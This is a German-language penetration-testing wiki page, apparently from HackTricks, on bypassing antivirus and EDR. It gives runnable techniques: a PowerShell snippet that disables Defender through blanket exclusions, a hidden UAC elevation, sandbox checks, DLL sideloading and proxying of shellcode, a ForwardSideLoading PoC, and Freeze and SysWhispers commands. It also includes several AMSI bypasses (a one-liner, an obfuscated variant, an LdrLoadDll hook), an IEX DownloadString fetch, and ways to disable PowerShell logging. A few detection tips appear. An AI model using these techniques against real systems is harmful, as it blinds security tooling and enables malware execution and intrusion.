




# Antivirus (AV) Bypass

{{#include ../banners/hacktricks-training.md}}

**Diese Seite wurde ursprünglich von** [**@m2rc_p**](https://twitter.com/m2rc_p)** verfasst!**

## Defender stoppen

- [defendnot](https://github.com/es3n1n/defendnot): Ein Tool, um Windows Defender am Arbeiten zu hindern.
- [no-defender](https://github.com/es3n1n/no-defender): Ein Tool, das Windows Defender stoppt, indem es einen anderen AV vortäuscht.
- [Defender deaktivieren, wenn du Admin bist](basic-powershell-for-pentesters/README.md)

### UAC-Köder im Installer-Stil vor dem Manipulieren von Defender

Öffentlich verfügbare Loader, die sich als Game Cheats ausgeben, werden häufig als nicht signierte Node.js/Nexe-Installer ausgeliefert, die zuerst **den Benutzer um eine Rechteerhöhung bitten** und erst danach Defender deaktivieren. Der Ablauf ist einfach:

1. Mit `net session` prüfen, ob administrative Rechte vorliegen. Der Befehl ist nur erfolgreich, wenn der Aufrufer Admin-Rechte hat. Ein Fehler bedeutet also, dass der Loader als Standardbenutzer ausgeführt wird.
2. Sich sofort selbst mit dem `RunAs`-Verb neu starten, um die erwartete UAC-Zustimmungsaufforderung auszulösen und dabei die ursprüngliche Befehlszeile beizubehalten.

```powershell
if (-not (net session 2>$null)) {
    powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
    exit
}
```

Opfer glauben bereits, dass sie „gecrackte“ Software installieren, und akzeptieren die Eingabeaufforderung daher normalerweise. Dadurch erhält die Malware die Rechte, die sie benötigt, um die Richtlinie von Defender zu ändern.<sup>[[26]](#references)</sup>

### Pauschale `MpPreference`-Ausnahmen für jeden Laufwerksbuchstaben

Sobald der Loader erhöhte Rechte hat, sorgen GachiLoader-artige Ketten für möglichst große blinde Flecken in Defender, anstatt den Dienst direkt zu deaktivieren. Zuerst beendet der Loader den GUI-Watchdog (`taskkill /F /IM SecHealthUI.exe`) und fügt dann **extrem weitreichende Ausnahmen** hinzu, sodass jedes Benutzerprofil, jedes Systemverzeichnis und jedes Wechsellaufwerk nicht mehr gescannt werden kann:

```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```

Wichtige Beobachtungen:

- Die Schleife durchläuft jedes eingebundene Dateisystem (D:\, E:\, USB-Sticks usw.), sodass **jede zukünftige Payload, die irgendwo auf dem Datenträger abgelegt wird, ignoriert wird**.
- Der Ausschluss der Erweiterung `.sys` ist vorausschauend – Angreifer behalten sich so die Möglichkeit vor, später unsignierte Treiber zu laden, ohne Defender erneut anfassen zu müssen.
- Alle Änderungen werden unter `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions` vorgenommen. Spätere Phasen können so bestätigen, dass die Ausschlüsse weiterhin bestehen, oder sie erweitern, ohne erneut UAC auszulösen.

Da kein Defender-Dienst angehalten wird, melden naive Integritätsprüfungen weiterhin „Antivirus aktiv“, obwohl die Echtzeitprüfung diese Pfade nie überprüft.<sup>[[26]](#references)</sup>

## **AV-Evasion-Methodik**

AVs verwenden derzeit verschiedene Methoden, um festzustellen, ob eine Datei schädlich ist: statische Erkennung, dynamische Analyse und – bei fortgeschritteneren EDRs – Verhaltensanalyse.

### **Statische Erkennung**

Bei der statischen Erkennung werden bekannte schädliche Zeichenfolgen oder Bytefolgen in einer Binärdatei oder einem Skript markiert. Außerdem werden Informationen direkt aus der Datei extrahiert (z. B. Dateibeschreibung, Firmenname, digitale Signaturen, Symbol, Prüfsumme usw.). Das bedeutet, dass du mit bekannten öffentlichen Tools leichter entdeckt werden kannst, da diese wahrscheinlich bereits analysiert und als schädlich markiert wurden. Es gibt einige Möglichkeiten, diese Art der Erkennung zu umgehen:

- **Verschlüsselung**

Wenn du die Binärdatei verschlüsselst, kann AV dein Programm nicht erkennen. Du benötigst jedoch eine Art Loader, um das Programm zu entschlüsseln und im Arbeitsspeicher auszuführen.

- **Obfuskation**

Manchmal reicht es, einige Zeichenfolgen in deiner Binärdatei oder deinem Skript zu ändern, damit es AV passiert. Je nachdem, was du obfuskieren möchtest, kann das jedoch zeitaufwendig sein.

- **Eigene Tools**

Wenn du eigene Tools entwickelst, gibt es keine bekannten schädlichen Signaturen. Das kostet jedoch viel Zeit und Mühe.

> [!TIP]
> Eine gute Möglichkeit, die statische Erkennung durch Windows Defender zu überprüfen, ist [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). Das Tool teilt die Datei in mehrere Segmente auf und lässt Defender jedes einzeln scannen. So kann es dir genau sagen, welche Zeichenfolgen oder Bytes in deiner Binärdatei markiert werden.

Ich empfehle dir dringend, dir diese [YouTube-Playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) über praktische AV-Evasion anzusehen.

### **Dynamische Analyse**

Bei der dynamischen Analyse führt das AV deine Binärdatei in einer Sandbox aus und beobachtet sie auf schädliche Aktivitäten (z. B. den Versuch, die Passwörter deines Browsers zu entschlüsseln und auszulesen, einen Minidump von LSASS zu erstellen usw.). Dieser Teil kann etwas schwieriger sein, aber es gibt einige Dinge, die du tun kannst, um Sandboxes zu umgehen.

- **Sleep vor der Ausführung** Je nach Implementierung kann das eine gute Möglichkeit sein, die dynamische Analyse von AV zu umgehen. AVs haben nur sehr wenig Zeit, Dateien zu scannen, damit der Arbeitsablauf der Nutzer nicht unterbrochen wird. Lange Sleeps können daher die Analyse von Binärdateien stören. Das Problem ist, dass viele AV-Sandboxes den Sleep einfach überspringen können – je nachdem, wie er implementiert ist.
- **Systemressourcen prüfen** Sandboxes verfügen normalerweise nur über wenige Ressourcen (z. B. < 2 GB RAM), da sie sonst den Computer des Nutzers verlangsamen könnten. Hier kannst du auch kreativ werden, zum Beispiel die CPU-Temperatur oder sogar die Lüfterdrehzahl prüfen – nicht alles wird in der Sandbox implementiert sein.
- **Systemspezifische Prüfungen** Wenn du einen Nutzer angreifen möchtest, dessen Arbeitsplatzrechner in die Domäne „contoso.local“ eingebunden ist, kannst du die Domäne des Computers prüfen und feststellen, ob sie mit der von dir angegebenen übereinstimmt. Falls nicht, kannst du dein Programm beenden lassen.

Wie sich herausstellt, lautet der Computername der Microsoft-Defender-Sandbox HAL9TH. Du kannst also vor der Detonation in deiner Malware den Computernamen prüfen. Lautet er HAL9TH, befindest du dich in der Defender-Sandbox und kannst dein Programm beenden lassen.

<figure><figcaption><p>Quelle: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Weitere gute Tipps von [@mgeeky](https://twitter.com/mariuszbit), um Sandboxes zu umgehen

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev-Kanal</p></figcaption></figure>

Wie wir bereits in diesem Beitrag erwähnt haben, werden **öffentliche Tools** früher oder später **erkannt**. Du solltest dir also folgende Frage stellen:

Wenn du beispielsweise LSASS dumpen möchtest, **musst du dafür wirklich mimikatz verwenden**? Oder könntest du ein weniger bekanntes Projekt verwenden, das ebenfalls LSASS dumpen kann?

Wahrscheinlich ist Letzteres die richtige Antwort. Am Beispiel von mimikatz: Es ist wahrscheinlich eines der am häufigsten – wenn nicht sogar das am häufigsten – von AVs und EDRs markierten Malware-Projekte. Obwohl das Projekt selbst wirklich cool ist, ist es auch ein Albtraum, damit AVs zu umgehen. Suche daher einfach nach Alternativen für das, was du erreichen möchtest.

> [!TIP]
> Wenn du deine Payloads zur Umgehung von Erkennung veränderst, solltest du **die automatische Übermittlung von Samples** in Defender deaktivieren. Und bitte, wirklich: **LADE SIE NICHT AUF VIRUSTOTAL HOCH**, wenn du langfristig Erkennung umgehen möchtest. Wenn du überprüfen willst, ob deine Payload von einem bestimmten AV erkannt wird, installiere es in einer VM, versuche die automatische Übermittlung von Samples zu deaktivieren und teste es dort, bis du mit dem Ergebnis zufrieden bist.

## EXEs vs DLLs

Wenn möglich, solltest du zur Umgehung von Erkennung immer **DLLs bevorzugen**. Meiner Erfahrung nach werden DLL-Dateien normalerweise **deutlich seltener erkannt** und analysiert. In manchen Fällen ist das also ein ganz einfacher Trick, um einer Erkennung zu entgehen (vorausgesetzt natürlich, deine Payload kann als DLL ausgeführt werden).

Wie wir auf diesem Bild sehen können, hat eine DLL-Payload von Havoc auf antiscan.me eine Erkennungsrate von 4/26, während die EXE-Payload eine Erkennungsrate von 7/26 aufweist.

<figure><figcaption><p>Vergleich auf antiscan.me zwischen einer normalen Havoc-EXE-Payload und einer normalen Havoc-DLL</p></figcaption></figure>

Im Folgenden zeigen wir einige Tricks, mit denen du DLL-Dateien deutlich unauffälliger machen kannst.

## DLL Sideloading & Proxying

**DLL Sideloading** nutzt die vom Loader verwendete DLL-Suchreihenfolge aus, indem die Opferanwendung und die schädlichen Payloads nebeneinander platziert werden.

Mit [Siofra](https://github.com/Cybereason/siofra) und dem folgenden PowerShell-Skript kannst du nach Programmen suchen, die für DLL Sideloading anfällig sind:

```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```

Dieser Befehl gibt die Liste der Programme in "C:\Program Files\\" aus, die für DLL hijacking anfällig sind, sowie die DLL-Dateien, die sie zu laden versuchen.

Ich empfehle dringend, **DLL Hijackable/Sideloadable-Programme selbst zu erkunden**. Bei korrekter Ausführung ist diese Technik ziemlich stealthy, aber wenn du öffentlich bekannte DLL Sideloadable-Programme verwendest, kannst du leicht entdeckt werden.

Allein dadurch, dass du eine bösartige DLL mit dem Namen platzierst, den ein Programm zu laden erwartet, wird deine Payload nicht geladen, da das Programm bestimmte Funktionen in dieser DLL erwartet. Um dieses Problem zu beheben, verwenden wir eine andere Technik namens **DLL Proxying/Forwarding**.

**DLL Proxying** leitet die Aufrufe, die ein Programm an die Proxy-DLL (und damit an die bösartige DLL) richtet, an die originale DLL weiter. So bleibt die Funktionalität des Programms erhalten und deine Payload kann ausgeführt werden.

Ich werde das Projekt [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) von [@flangvik](https://twitter.com/Flangvik/) verwenden.

Das sind die Schritte, die ich ausgeführt habe:

```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```

Der letzte Befehl liefert uns 2 Dateien: eine DLL-Quellcodevorlage und die ursprüngliche umbenannte DLL.

<figure><figcaption></figcaption></figure>

```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```

Diese Ergebnisse haben wir erzielt:

<figure><figcaption></figcaption></figure>

Sowohl unser Shellcode (mit [SGN](https://github.com/EgeBalci/sgn) kodiert) als auch die Proxy-DLL haben auf [antiscan.me](https://antiscan.me) eine Erkennungsrate von 0/26! Ich würde das als Erfolg bezeichnen.

<figure><figcaption></figcaption></figure>

> [!TIP]
> Ich **empfehle dringend**, dir [S3cur3Th1sSh1t's Twitch-VOD](https://www.twitch.tv/videos/1644171543) über DLL Sideloading und auch [ippsecs Video](https://www.youtube.com/watch?v=3eROsG_WNpE) anzusehen, um mehr über die besprochenen Themen zu erfahren.

### Missbrauch weitergeleiteter Exports (ForwardSideLoading)

Windows-PE-Module können Funktionen exportieren, die eigentlich „Forwarder“ sind: Statt auf Code zu verweisen, enthält der Exporteintrag eine ASCII-Zeichenfolge im Format `TargetDll.TargetFunc`. Wenn ein Aufrufer den Export auflöst, führt der Windows-Loader Folgendes aus:

- Lädt `TargetDll`, falls es noch nicht geladen ist
- Löst `TargetFunc` daraus auf

Wichtige Verhaltensweisen, die du kennen solltest:
- Wenn `TargetDll` eine KnownDLL ist, wird sie aus dem geschützten KnownDLLs-Namespace bereitgestellt (z. B. ntdll, kernelbase, ole32).<sup>[[15]](#references)</sup>
- Wenn `TargetDll` keine KnownDLL ist, wird die normale DLL-Suchreihenfolge verwendet, zu der auch das Verzeichnis des Moduls gehört, das die Weiterleitung auflöst.

Das ermöglicht eine indirekte Sideloading-Möglichkeit: Finde eine signierte DLL, die eine Funktion exportiert, die an ein Modul mit einem Namen weitergeleitet wird, der keiner KnownDLL entspricht. Lege diese signierte DLL dann zusammen mit einer vom Angreifer kontrollierten DLL ab, die exakt wie das weitergeleitete Zielmodul heißt. Wird der weitergeleitete Export aufgerufen, löst der Loader die Weiterleitung auf und lädt deine DLL aus demselben Verzeichnis, wodurch dein DllMain ausgeführt wird.<sup>[[13]](#references)</sup>

Beispiel unter Windows 11:

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` ist keine KnownDLL und wird daher über die normale Suchreihenfolge aufgelöst.

PoC (zum Kopieren und Einfügen):
1) Kopiere die signierte System-DLL in einen beschreibbaren Ordner
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) Lege eine schädliche `NCRYPTPROV.dll` im selben Ordner ab. Ein minimales DllMain reicht aus, um Codeausführung zu erreichen; du musst die weitergeleitete Funktion nicht implementieren, damit DllMain ausgelöst wird.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) Löse das Forwarding mit einem signierten LOLBin aus:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Observed behavior:
- rundll32 (signed) lädt die side-by-side-`keyiso.dll` (signed)
- Bei der Auflösung von `KeyIsoSetAuditingInterface` folgt der Loader der Weiterleitung zu `NCRYPTPROV.SetAuditingInterface`
- Der Loader lädt dann `NCRYPTPROV.dll` aus `C:\test` und führt dessen `DllMain` aus
- Wenn `SetAuditingInterface` nicht implementiert ist, erhältst du den Fehler "missing API" erst, nachdem `DllMain` bereits ausgeführt wurde

Hunting-Tipps:
- Konzentriere dich auf weitergeleitete Exporte, deren Zielmodul keine KnownDLL ist. KnownDLLs sind unter `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` aufgeführt.
- Du kannst weitergeleitete Exporte mit Tools wie den folgenden auflisten:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- Siehe das Windows-11-Forwarder-Inventar, um nach Kandidaten zu suchen: https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

Ideen zur Erkennung/Abwehr:
- Überwache LOLBins (z. B. rundll32.exe), die signierte DLLs aus Nicht-Systempfaden laden und anschließend Nicht-KnownDLLs mit demselben Basisnamen aus diesem Verzeichnis laden
- Erzeuge einen Alarm bei Prozess-/Modulketten wie: `rundll32.exe` → Nicht-System-`keyiso.dll` → `NCRYPTPROV.dll` in benutzerschreibbaren Pfaden
- Setze Code-Integritätsrichtlinien (WDAC/AppLocker) durch und verbiete Schreib- und Ausführungszugriff in Anwendungsverzeichnissen

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze ist ein Payload-Toolkit zum Umgehen von EDRs mithilfe angehaltener Prozesse, direkter Syscalls und alternativer Ausführungsmethoden`

Mit Freeze kannst du deinen Shellcode unauffällig laden und ausführen.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasion ist ein Katz-und-Maus-Spiel: Was heute funktioniert, kann morgen erkannt werden. Verlasse dich daher nie auf nur ein Tool und versuche, wenn möglich, mehrere Evasion-Techniken miteinander zu kombinieren.

## Direkte/Indirekte Syscalls & SSN-Auflösung (SysWhispers4)

EDRs platzieren häufig **Inline-Hooks im User-Mode** auf den Syscall-Stubs von `ntdll.dll`. Um diese Hooks zu umgehen, kannst du **direkte** oder **indirekte** Syscall-Stubs generieren, die die korrekte **SSN** (System Service Number) laden und in den Kernel-Modus wechseln, ohne den gehookten Export-Einstiegspunkt auszuführen.<sup>[[32]](#references)</sup>

**Aufrufoptionen:**
- **Direkt (eingebettet)**: Gibt eine `syscall`-/`sysenter`-/`SVC #0`-Instruktion im generierten Stub aus (kein Aufruf eines `ntdll`-Exports).
- **Indirekt**: Springt in ein vorhandenes `syscall`-Gadget innerhalb von `ntdll`, sodass der Kernel-Übergang so aussieht, als käme er von `ntdll` (nützlich zur Umgehung heuristischer Erkennung); **randomized indirect** wählt bei jedem Aufruf ein Gadget aus einem Pool.
- **Egg-hunt**: Vermeidet das Einbetten der statischen Opcode-Sequenz `0F 05` auf dem Datenträger; löst eine Syscall-Sequenz zur Laufzeit auf.

**Hook-resistente Strategien zur SSN-Auflösung:**
- **FreshyCalls (VA sort)**: Leitet SSNs ab, indem Syscall-Stubs nach virtueller Adresse sortiert werden, anstatt die Stub-Bytes auszulesen.
- **SyscallsFromDisk**: Bindet eine saubere `\KnownDlls\ntdll.dll` ein, liest SSNs aus ihrem `.text`-Abschnitt und hebt dann die Zuordnung auf (umgeht alle Hooks im Arbeitsspeicher).
- **RecycledGate**: Kombiniert die Ableitung von SSNs anhand der VA-Sortierung mit einer Opcode-Validierung, wenn ein Stub sauber ist; greift bei gehookten Stubs auf die VA-Ableitung zurück.
- **HW Breakpoint**: Setzt DR0 auf die `syscall`-Instruktion und verwendet einen VEH, um die SSN zur Laufzeit aus `EAX` auszulesen, ohne gehookte Bytes zu analysieren.

Beispiel für die Verwendung von SysWhispers4:
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```

## AMSI (Anti-Malware Scan Interface)

AMSI wurde entwickelt, um „[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)“ zu verhindern. Anfangs konnten AVs nur **Dateien auf dem Datenträger** scannen. Wenn man Payloads also irgendwie **direkt im Arbeitsspeicher** ausführen konnte, konnte der AV nichts dagegen unternehmen, da ihm die nötige Sichtbarkeit fehlte.

Die AMSI-Funktion ist in diese Windows-Komponenten integriert.

- Benutzerkontensteuerung (UAC; Erhöhung von EXE-, COM- und MSI-Dateien oder ActiveX-Installationen)
- PowerShell (Skripte, interaktive Verwendung und dynamische Codeauswertung)
- Windows Script Host (wscript.exe und cscript.exe)
- JavaScript und VBScript
- Office-VBA-Makros

Dadurch können Antivirus-Lösungen das Verhalten von Skripten untersuchen, indem ihnen der Skriptinhalt unverschlüsselt und unverschleiert bereitgestellt wird.

Bei der Ausführung von `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` wird in Windows Defender die folgende Warnung angezeigt.

<figure><figcaption></figcaption></figure>

Beachte, dass `amsi:` vorangestellt wird, gefolgt vom Pfad der ausführbaren Datei, über die das Skript ausgeführt wurde – in diesem Fall powershell.exe.

Wir haben keine Datei auf den Datenträger geschrieben, wurden aber trotzdem im Arbeitsspeicher durch AMSI erkannt.

Außerdem wird C#-Code ab **.NET 4.8** ebenfalls durch AMSI geleitet. Das betrifft auch `Assembly.Load(byte[])`, mit dem Code im Arbeitsspeicher geladen wird. Deshalb wird für die Ausführung im Arbeitsspeicher die Verwendung älterer .NET-Versionen (wie 4.7.2 oder niedriger) empfohlen, wenn man AMSI umgehen möchte.

Es gibt mehrere Möglichkeiten, AMSI zu umgehen:

- **Obfuscation**

Da AMSI hauptsächlich mit statischen Erkennungsverfahren arbeitet, kann eine Änderung der zu ladenden Skripte eine gute Möglichkeit sein, der Erkennung zu entgehen.

AMSI kann Skripte jedoch auch dann entschleiern, wenn sie mehrere Verschleierungsebenen haben. Je nach Vorgehensweise kann Obfuscation daher eine schlechte Option sein. Dadurch ist das Umgehen nicht ganz unkompliziert. Manchmal reicht es allerdings, ein paar Variablennamen zu ändern. Es kommt also darauf an, wie stark etwas markiert wurde.

- **AMSI Bypass**

Da AMSI implementiert wird, indem eine DLL in den powershell-Prozess (sowie cscript.exe, wscript.exe usw.) geladen wird, lässt sich diese leicht manipulieren – sogar als nicht privilegierter Benutzer. Aufgrund dieses Implementierungsfehlers von AMSI haben Forscher mehrere Möglichkeiten gefunden, den AMSI-Scan zu umgehen.

**Forcing an Error**

Wenn die AMSI-Initialisierung fehlschlägt (`amsiInitFailed`), wird für den aktuellen Prozess kein Scan gestartet. Dies wurde ursprünglich von [Matt Graeber](https://twitter.com/mattifestation) offengelegt. Microsoft hat eine Signatur entwickelt, um eine breitere Nutzung zu verhindern.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Es war nur eine Zeile PowerShell-Code nötig, um AMSI für den aktuellen PowerShell-Prozess unbrauchbar zu machen. Diese Zeile wurde natürlich von AMSI selbst erkannt, daher sind einige Änderungen nötig, um diese Technik anzuwenden.

Hier ist ein modifizierter AMSI-Bypass, den ich diesem [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) entnommen habe.

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Beachte, dass dieser Beitrag nach seiner Veröffentlichung wahrscheinlich markiert wird. Wenn du also unentdeckt bleiben möchtest, solltest du keinen Code veröffentlichen.

**Memory Patching**

Diese Technik wurde ursprünglich von [@RastaMouse](https://twitter.com/_RastaMouse/) entdeckt. Dabei wird die Adresse der Funktion „AmsiScanBuffer“ in amsi.dll ermittelt (sie ist für das Scannen der vom Benutzer bereitgestellten Eingaben zuständig) und mit Anweisungen überschrieben, die den Code für E_INVALIDARG zurückgeben. Dadurch gibt das Ergebnis des eigentlichen Scans 0 zurück, was als sauberes Ergebnis interpretiert wird.

> [!TIP]
> Lies [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) für eine ausführlichere Erklärung.

Es gibt auch viele weitere Techniken, um AMSI mit PowerShell zu umgehen. Weitere Informationen dazu findest du auf [**dieser Seite**](basic-powershell-for-pentesters/index.html#amsi-bypass) und in [**diesem Repo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

### AMSI blockieren, indem das Laden von amsi.dll verhindert wird (LdrLoadDll hook)

AMSI wird erst initialisiert, nachdem `amsi.dll` in den aktuellen Prozess geladen wurde. Ein robuster, sprachunabhängiger Bypass besteht darin, einen User-Mode-Hook auf `ntdll!LdrLoadDll` zu setzen, der einen Fehler zurückgibt, wenn das angeforderte Modul `amsi.dll` ist. Dadurch wird AMSI nie geladen und es werden keine Scans für diesen Prozess ausgeführt.<sup>[[23]](#references)</sup>

Implementierungsübersicht (x64-C/C++-Pseudocode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
Notes
- Funktioniert mit PowerShell, WScript/CScript und benutzerdefinierten Loadern (also allem, was andernfalls AMSI laden würde).
- In Kombination mit dem Einspeisen von Skripten über stdin (`PowerShell.exe -NoProfile -NonInteractive -Command -`) vermeiden Sie lange Spuren in der Befehlszeile.
- Wurde bei Loadern beobachtet, die über LOLBins ausgeführt werden (z. B. `regsvr32`, das `DllRegisterServer` aufruft).

Das Tool **[https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail)** generiert ebenfalls Skripte, um AMSI zu umgehen.
Das Tool **[https://amsibypass.com/](https://amsibypass.com/)** generiert ebenfalls Skripte, um AMSI zu umgehen und Signaturen zu vermeiden. Dazu verwendet es zufällig generierte benutzerdefinierte Funktionen, Variablen und Zeichenausdrücke und ändert die Groß- und Kleinschreibung von PowerShell-Schlüsselwörtern nach dem Zufallsprinzip.

**Die erkannte Signatur entfernen**

Mit Tools wie **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** und **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** können Sie die erkannte AMSI-Signatur aus dem Speicher des aktuellen Prozesses entfernen. Das Tool durchsucht den Speicher des aktuellen Prozesses nach der AMSI-Signatur und überschreibt sie dann mit NOP-Anweisungen, wodurch sie effektiv aus dem Speicher entfernt wird.

**AV/EDR-Produkte, die AMSI verwenden**

Eine Liste der AV/EDR-Produkte, die AMSI verwenden, finden Sie unter **[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)**.

**PowerShell Version 2 verwenden**
Wenn Sie PowerShell Version 2 verwenden, wird AMSI nicht geladen, sodass Sie Ihre Skripte ausführen können, ohne dass sie von AMSI gescannt werden. So geht's:

```bash
powershell.exe -version 2
```

## PS-Logging

PowerShell-Logging ist eine Funktion, mit der alle auf einem System ausgeführten PowerShell-Befehle protokolliert werden können. Das kann für Audits und zur Fehlerbehebung nützlich sein, aber auch ein **Problem für Angreifer darstellen, die einer Entdeckung entgehen wollen**.

Um PowerShell-Logging zu umgehen, kannst du folgende Techniken verwenden:

- **PowerShell Transcription und Module Logging deaktivieren**: Dafür kannst du ein Tool wie [https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs) verwenden.
- **PowerShell Version 2 verwenden**: Wenn du PowerShell Version 2 verwendest, wird AMSI nicht geladen. Daher kannst du deine Skripte ausführen, ohne dass sie von AMSI gescannt werden. Verwende dazu: `powershell.exe -version 2`
- **Eine unmanaged PowerShell-Sitzung verwenden**: Verwende [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell), um PowerShell ohne Start von `powershell.exe` zu hosten (wie bei Cobalt Strikes `powerpick`). Dadurch werden Sicherheitskontrollen umgangen, die speziell an den Prozess `powershell.exe` gebunden sind. AMSI, Script Block Logging oder andere PowerShell-Schutzmaßnahmen werden dadurch jedoch nicht automatisch deaktiviert; der Umfang hängt von der Laufzeitumgebung und der Host-Implementierung ab.


## Obfuscation

> [!TIP]
> Bei mehreren Obfuscation-Techniken werden Daten verschlüsselt. Dadurch erhöht sich die Entropie der Binärdatei, wodurch AVs und EDRs sie leichter erkennen können. Sei damit vorsichtig und wende die Verschlüsselung gegebenenfalls nur auf bestimmte Codeabschnitte an, die sensibel sind oder verborgen werden müssen.

### Deobfuscieren von mit ConfuserEx geschützten .NET-Binärdateien

Bei der Analyse von Malware, die ConfuserEx 2 (oder kommerzielle Forks) verwendet, stößt man häufig auf mehrere Schutzebenen, die Decompiler und Sandboxes blockieren. Der folgende Workflow stellt zuverlässig ein **nahezu ursprüngliches IL wieder her**, das anschließend mit Tools wie dnSpy oder ILSpy zu C# dekompiliert werden kann.<sup>[[10]](#references)</sup>

